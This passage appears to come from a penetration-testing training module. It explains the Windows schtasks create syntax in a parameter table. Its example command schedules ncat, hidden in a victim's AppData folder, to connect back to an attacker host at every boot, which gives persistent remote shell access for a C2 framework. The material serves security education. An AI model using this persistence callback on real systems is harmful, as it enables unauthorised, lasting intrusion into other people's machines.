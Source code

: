 Chaining our parameters with `Query` allows us to format our output from the standard bulk into a list with advanced settings. The above output shows how the tasks would look in a list format.

#### Create a New Scheduled Task:

#### Create Syntax

|**Action**|**Parameter**|**Description**|
|---|---|---|
|`Create`||Schedules a task to run.|
||/sc|Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.|
||/tn|Sets the name for the task we are building. Each task must have a unique name.|
||/tr|Sets the trigger and task that should be run. This can be an executable, script, or batch file.|
||/s|Specify the host to run on, much like in Query.|
||/u|Specifies the local user or domain user to utilize|
||/p|Sets the Password of the user-specified.|
||/mo|Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day.|
||/rl|Allows us to limit the privileges of the task. Options here are `limited` access and `Highest`. Limited is the default value.|
||/z|Will set the task to be deleted after completion of its actions.|

Creating a new scheduled task is pretty straightforward. At a minimum, we must specify the following:

- `/create` : to tell it what we are doing
- `/sc` : we must set a schedule
- `/tn` : we must set the name
- `/tr` : we must give it an action to take

Everything else is optional. Let us see an example below of how we could create a task to help us get a shell.

#### New Task Creation

```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

**A great example of a use for schtasks would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down. We can create or modify a new task by adding a new trigger and action. In our task above, we have schtasks execute Ncat locally, which we placed in the user's AppData directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.**

